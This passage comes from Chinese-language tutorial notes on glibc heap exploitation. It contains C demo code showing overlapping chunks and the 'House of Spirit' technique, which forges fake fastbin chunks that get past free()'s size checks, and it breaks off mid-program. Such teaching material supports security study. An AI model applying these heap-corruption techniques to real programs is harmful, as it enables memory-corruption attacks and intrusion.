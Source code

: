 ```c
		" and data written to chunk p3 can overwrite data\nstored in the p4 chunk.\n\n");

	fprintf(stderr, "Let's run through an example. Right now, we have:\n");
	fprintf(stderr, "p4 = %s\n", (char *)p4);
	fprintf(stderr, "p3 = %s\n", (char *)p3);

	fprintf(stderr, "\nIf we memset(p4, '4', %d), we have:\n", evil_region_size);
	memset(p4, '4', evil_region_size);
	fprintf(stderr, "p4 = %s\n", (char *)p4);
	fprintf(stderr, "p3 = %s\n", (char *)p3);

	fprintf(stderr, "\nAnd if we then memset(p3, '3', 80), we have:\n");
	memset(p3, '3', 80);
	fprintf(stderr, "p4 = %s\n", (char *)p4);
	fprintf(stderr, "p3 = %s\n", (char *)p3);
}

```



## 4. House of Spirit / Free虚假的chunk

该攻击方式与UAF类似，只不过是直接free掉虚假的chunk，这样就可以在下次malloc的时候直接获取我们虚假的chunk

* 条件
  * 能够free虚假的chunk
* 安全检查
  * 虚假的chunk以及该chunk后面chunk的大小需要满足安全检查，fastbin与smallbin的检查不同
  * fastchunk需要检查不是top chunk
  * smallchunk需要检查inuse和top chunk

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
  struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
  void *ptr, *victim;

  ptr = malloc(0x30);

  printf("%p\n", &fake_chunks[0]);
  printf("%p\n", &fake_chunks[1]);

  // Passes size check of "free(): invalid size"
  fake_chunks[0].size = sizeof(struct fast_chunk);

  // Passes "free(): invalid next size (fast)"
  fake_chunks[1].size = sizeof(struct fast_chunk)+0x10;

  // Attacker overwrites a pointer that is about to be 'freed'
  ptr = (void *)&fake_chunks[0].fd;

  free(ptr);
```
